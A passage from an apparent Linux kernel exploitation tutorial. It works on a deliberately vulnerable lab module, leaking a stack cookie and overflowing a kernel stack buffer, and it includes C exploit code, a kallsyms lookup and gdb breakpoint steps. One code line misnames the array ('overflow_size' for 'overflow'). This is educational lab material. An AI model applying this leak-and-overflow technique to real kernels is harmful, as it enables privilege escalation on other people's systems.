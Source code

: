 ```c
        int r = read(fd, leak, sizeof(leak));


        stack_cookie = (long) leak[0x3];

        fprintf(stdout, "[+] StackCookie: %p\n", stack_cookie);

        uint64_t overflow[overflow_size]; //8 * 8 == 64 bytez

        overflow_size[0x4] = 0x4141414141414141;

        int w = write(fd, overflow, sizeof(overflow));

        fprintf(stdout, "[+] Wrote %d bytez\n", w);
        return 0;
} 

```
Compile and launch the emulator using [this](https://github.com/mutur4/Linux-Kernel-Build-Scripts/blob/main/bash.sh) bash script introduced above. From the emulator, we need to return the address of *vuln_write()* using the following command. 

```sh
cat /proc/kallsyms | grep -i vuln_write
``` 
![vuln_write](https://i.imgur.com/lUpSQUl.png)

Attach the debugger to disassemble the *vuln_write* function and set a break-point write after the call to *memcpy()* whose address is marked as shown below. 

 
![vuln_write diass](https://i.imgur.com/wJpVnTu.png)

```c
(gdb) br *0xffffffffc000011f
```

The above will set a break-point right after the vulnerable *memcpy()*, continue execution and from the emulator run `./chall`. This should hit the break-point on the debugger and the stack can now be examined. 

![vuln_write_stack](https://i.imgur.com/6ObXBgd.png)

As shown above, the stack-cookie is overwritten and when execution is continued, the Kernel Panics with a `Kernel Stack is Corrupted` error. 

![stack_cookie](https://i.imgur.com/jUpRWGj.png)

The value that overwrote the stack-cookie was at index `0x4` in the *overflow* array. Edit the code above with the value of the stack_cookie leaked earlier to bypass the stack-cookie check. The overflow buffer will also be filled with junk values that will help up determine the offset of the return address when the Kernel crashes.

```c

overflow[0x4] = stack_cookie;
overflow[0x5] = 0x4242424242424242;
overflow[0x6] = 0x4343434343434343;
overflow[0x7] = 0x3030303030303030;
``` 
